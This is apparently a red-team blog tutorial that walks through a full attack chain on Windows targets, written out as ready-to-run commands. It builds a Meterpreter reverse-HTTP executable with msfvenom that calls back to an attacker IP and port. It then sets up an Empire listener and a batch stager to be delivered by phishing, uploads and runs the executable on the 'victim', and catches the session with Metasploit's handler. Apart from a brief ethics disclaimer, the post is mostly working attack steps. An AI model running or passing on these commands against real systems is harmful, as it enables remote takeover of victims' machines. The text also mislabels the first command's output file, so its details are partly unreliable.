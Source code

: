 ```yaml
---
title: "Mastering Malware"
date: 2024-05-16 22:56:24 +0800
categories: [AVEvasion]
tags: [RedTeaming]
---
```


#  Mastering Malware: A Step-by-Step Guide to Using MSFVenom, Empire, and Metasploit 

 In today's digital landscape, cybersecurity professionals must stay ahead of the game to protect their systems and networks. However, understanding offensive tools can also be crucial for defenders. In this guide, we'll delve into the process of creating and running an executable program generated by MSFVenom, sending it to a user via Empire, and then listening for connections using Metasploit's multi-handler. Buckle up as we explore the dark side of cybersecurity!

## Steps:

1. Crafting the Payload with MSFVenom:
   MSFVenom is a powerful tool in the Metasploit framework used for generating payloads. Let's create a basic Windows reverse shell payload using MSFVenom:
   ```bash
   msfvenom -p windows/meterpreter/reverse_http LHOST=<your_IP_address> LPORT=<your_port> -f exe > payload.exe
   ```
   Replace `<your_IP_address>` and `<your_port>` with your actual IP address and desired port number. This command generates an executable file named game3.exe that establishes a reverse HTTP connection to your listener.

   for example:
   ```bash
    msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.1.18 LPORT=4434 -f exe > game3.exe
    ```


2. Setting Up Empire: \
   Empire is a post-exploitation framework that allows you to control compromised systems. Start by launching Empire and setting up a listener:
   ```bash
   sudo ./ps-empire server

   sudo ./ps-empire client
   listeners
   uselistener http
   set Name MyListener
   set Host <your_IP_address>
   set Port <your_port>
   execute
   Empire>usestager windows_launcher_bat
   (Empire: usestager/windows_launcher_bat)>set listener http
   (Empire: usestager/windows_launcher_bat)>execute

   ```
   This sets up an HTTP listener named "MyListener" on your specified IP address and port.

3. Sending the Payload via Empire: \
   Now that Empire is ready, upload and run `(game3.exe)` using empire without any user interaction but before that we have sent the payload `(launcher.bat)` to the target user to get access on the target machine by running the `launcher.bat` file by user. This could be done through various methods like phishing or exploiting vulnerabilities. For demonstration purposes, assume the target has executed our payload.

4. Listening with Metasploit: \
   With the payload executed on the target machine, it's time to catch the incoming connection using Metasploit's multi-handler. Open a new terminal and launch Metasploit:
   ```bash
   msfconsole
   ```
   Inside Metasploit, set up the multi-handler:
   ```bash
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_http
   set LHOST 192.168.1.18
   set LPORT 4434
   exploit
   ```
   Metasploit is now waiting for the target machine to connect back to it.
5. Send and run file using Empire : \
   Upload the `game3.exe` file to the victim machine => view agents through `"agents"` command and use `"interact"` command to select you agent \

   ![Mastering Malware](assets/img/mastering-malware/mm-05.png)

   then use `"upload"` command to send the exe file to the victim \
   ![Mastering Malware](assets/img/mastering-malware/mm-05_1.png)
   
   Then run the exe file on victim machine using empire:\
   ![Mastering Malware](assets/img/mastering-malware/mm-05_2.png)

## Conclusion

Understanding how attackers operate is key to defending against them. By walking through the process of creating a payload with `MSFVenom`, sending it via `Empire`, and listening with `Metasploit`, you've gained valuable insights into offensive tactics.\
Remember, always use these tools ethically and with proper authorization. Happy hacking (responsibly)!

## Video Tutorial

Check out the following video for more details:

<iframe width="560" height="315" src="https://www.youtube.com/watch?v=1HocmYDQxMM" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>